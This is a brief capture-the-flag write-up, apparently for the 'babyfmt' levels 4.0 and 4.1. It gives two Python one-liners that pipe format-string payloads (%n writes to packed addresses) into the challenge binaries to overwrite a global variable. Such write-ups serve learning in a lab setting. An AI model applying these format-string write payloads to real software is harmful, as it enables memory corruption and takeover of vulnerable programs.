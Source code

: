 For level 4.0
First we print 141 characters then put it into the global variable

    python -c 'import sys; sys.stdout.buffer.write(b"%141x%36$nZZ" + b"\x68\x41\x40\x00\x00\x00\x00\x00")' | ./babyfmt_level4.0

For Level 4.1 
First we print 121 characters then put it into the global variable

    python -c 'import sys; sys.stdout.buffer.write(b"%121x%30$nZZZZZZ" + b"\xe0\x40\x40\x00\x00\x00\x00\x00")' | ./babyfmt_level4.1


